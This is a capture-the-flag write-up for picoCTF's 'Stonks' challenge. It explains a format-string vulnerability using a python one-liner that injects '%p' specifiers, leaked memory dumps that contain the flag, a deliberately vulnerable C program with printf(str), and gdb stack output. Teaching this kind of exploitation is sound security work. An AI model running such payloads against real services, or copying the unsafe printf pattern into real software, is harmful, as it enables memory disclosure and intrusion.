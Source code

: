 ```yaml
---
description: Stock Simulation With a Bug
---
```


# 💹 Stonks

The initial problem definition from their website is as follows:

> I decided to try something no one else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

_taken from_ [_PicoCTF_](https://picoctf.net)

## Solution

When we examine the program with a code editor, we see that it's using the unsafe version of `printf` when getting the users' authorization token.

With the unsafe version of `printf` we can dump the binary's content and execute code. Also important to know for this are calling conventions. During our first look at the problem, we noticed that the server was dumping _some_ data from the program but not which data, _exactly_. Consider our experimental setup below:

`$ ./vuln < <(python3 -c "print(1);print('%p.' * 20)")`

This small python snippet was executed and dumped the following memory fragment from below.

```html
0x1.0x1.0x7f3008bc6190.0x55744ead10d5.0x7f3008ca0a80.0x7ffdc1c45b20.0x55744f6d52a0.
0x7b4654436f636970.0x5f737469625f3631.0x5f64343374736e69.0x3636325f385f666f.
0x7d3032633438.0x7f3008ca0260.0x55744ead3080.0x7f3008c9d5e0.0x7f3008cf0020.
0x7f3008b4fe79.0x7f3008ca1760.0x7f3008b50283.0x14.
```

While we know that some values are ASCII characters, we could not find indicators as to why the first two variables were `1`s. The solution was that under `64 bit` Linux, the calling convention for syscalls takes arguments from the registers first, unlike with `32 bit` Linux. When compiling the binary under `32 bit` with the flag `-m32` in `gcc`, we see that we get a different result:

```html
0x567bb3d0.0x565caff4.0x565c84ae.0xf7f76da0.0x7d4.0xf7f76de7.0x6f636970.0x7b465443.
0x625f3631.0x5f737469.0x74736e69.0x5f643433.0x385f666f.0x3636325f.0x32633438.
0xff007d30.0xf7fcac18.0xf7f8e800.0x1.0x1.
```

### Verification of our Hypotheses

To verify this hypothesis we constructed a smaller binary from this source:

```c
#include<stdio.h>
#include <string.h>

int main()
{
    char str[15];
    char *secret= "You don't get to see this";
    puts("I will repeat whatever you say");
    scanf("%s",str);
    strcat(str, "\n");
    printf(str);
    return 0;
}
```

Verification with `gdb` indicated that it was indeed the case that `printf` took variables for the `32 bit` version from the stack first instead of using the registers like in the `64 bit` version. We used the format string `%p.%p.%p.%p.%p.%p.` and got `0xffffcd3d.0xf7da8a2f.0x565561d4.0xf7fc14a0.0xf7fd98cb.0xf7da8a2f.` as an answer. We verify this by looking at the stack from `gdb` at the point in execution when `printf` executes. Since `printf` takes all arguments from the stack, we also see that we leak pointers that lie behind this.

```c
[----------------------------------registers-----------------------------------]
EAX: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EBX: 0x56558ff4 --> 0x3ef0
ECX: 0x330d ('\r3')
EDX: 0x12
ESI: 0x56558eec ("`aUV\001")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0xffffcd58 --> 0x0
ESP: 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EIP: 0x5655622d (<main+112>:    call   0x56556040 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56556226 <main+105>:       sub    esp,0xc
   0x56556229 <main+108>:       lea    eax,[ebp-0x1b]
   0x5655622c <main+111>:       push   eax
=> 0x5655622d <main+112>:       call   0x56556040 <printf@plt>
   0x56556232 <main+117>:       add    esp,0x10
   0x56556235 <main+120>:       mov    eax,0x0
   0x5655623a <main+125>:       lea    esp,[ebp-0x8]
   0x5655623d <main+128>:       pop    ecx
Guessed arguments:
arg[0]: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0004| 0xffffcd24 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0008| 0xffffcd28 --> 0xf7da8a2f ("_dl_audit_preinit")
0012| 0xffffcd2c --> 0x565561d4 (<main+23>:     add    ebx,0x2e20)
0016| 0xffffcd30 --> 0xf7fc14a0 --> 0xf7d8c000 --> 0x464c457f
0020| 0xffffcd34 --> 0xf7fd98cb (mov    edi,eax)
0024| 0xffffcd38 --> 0xf7da8a2f ("_dl_audit_preinit")
0028| 0xffffcd3c --> 0x2e7025a0
[------------------------------------------------------------------------------]
```
